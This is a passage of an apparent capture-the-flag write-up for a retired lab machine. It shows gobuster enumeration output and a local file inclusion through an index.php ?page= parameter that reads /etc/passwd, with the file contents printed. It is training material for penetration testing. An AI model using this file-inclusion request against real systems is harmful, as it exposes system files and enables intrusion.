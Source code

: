 ## Enumeration
### Port 80
Running gobuster we find some more pages:
```
gobuster dir -u http://10.10.11.154 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -x txt,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.194.200
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html
[+] Timeout:                 10s
===============================================================
2022/04/03 13:11:48 Starting gobuster in directory enumeration mode
===============================================================
/js                   (Status: 301) [Size: 162] [--> http://10.129.194.200/js/]
/css                  (Status: 301) [Size: 162] [--> http://10.129.194.200/css/]
/assets               (Status: 301) [Size: 162] [--> http://10.129.194.200/assets/]
/default.html         (Status: 200) [Size: 11414]                                  
/beta.html            (Status: 200) [Size: 4144]                                   
/.                    (Status: 302) [Size: 0] [--> /index.php?page=default.html]
```

Accessing http://10.10.11.154/beta.html we are redirected to http://10.10.11.154/index.php?page=beta.html:
![](retired/images/image1.png)

The page talks about uploading a license file of 512 bits to get into the beta program. When pressing the SUBMIT button we note that it is sending a POST request to `activate_license.php`.

### LFI
So it seems that `index.php` is loading html pages from the `?page=` parameter as we can see above. We can try to load some internal system files:
http://10.10.11.154/index.php?page=/etc/passwd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
```